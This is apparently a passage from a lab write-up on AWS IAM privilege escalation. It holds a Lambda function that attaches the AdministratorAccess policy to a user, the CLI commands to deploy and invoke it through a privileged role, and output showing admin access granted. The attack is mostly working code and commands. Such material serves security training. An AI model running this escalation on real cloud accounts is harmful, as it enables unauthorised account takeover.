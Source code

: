 vim code.py
```
import boto3
def lambda_handler(event, context):
    client = boto3.client("iam")
    response = client.attach_user_policy(UserName='{PLACEHOLDER_LAB_NAME}_ApplicationDeployment',PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
    return response

```

zip code.zip code.py
aws lambda create-function --function-name {PLACEHOLDER_LAB_NAME}_exploit --runtime python3.8 --role arn:aws:iam::751796441543:role/ApplicationRoleManager_role --handler code.lambda_handler --zip-file fileb:///writeup/9_AWS-IAM-Privilege-escalation/code.zip
```
{
    "FunctionName": "Lab1_exploit",
    "FunctionArn": "arn:aws:lambda:us-west-2:751796441543:function:Lab1_exploit",
    "Runtime": "python3.8",
    "Role": "arn:aws:iam::751796441543:role/ApplicationRoleManager_role",
    "Handler": "code.lambda_handler",
    "CodeSize": 350,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2022-07-21T15:22:53.537+0000",
    "CodeSha256": "nvmTYqALJ416jrEITDKnvrfkJ/i7R0Fi+V+a4TIsSuI=",
    "Version": "$LATEST",
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "525ae6f5-36c8-4997-b6d1-6f2bf2729e02",
    "State": "Pending",
    "StateReason": "The function is being created.",
    "StateReasonCode": "Creating"
}
```

aws lambda invoke --function-name {PLACEHOLDER_LAB_NAME}_exploit --payload '{ "name": "Bob" }' response.json
```
{
    "StatusCode": 200,
    "FunctionError": "Unhandled",
    "ExecutedVersion": "$LATEST"
}
```

aws iam list-attached-user-policies --user-name {PLACEHOLDER_LAB_NAME}_ApplicationDeployment
```
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```
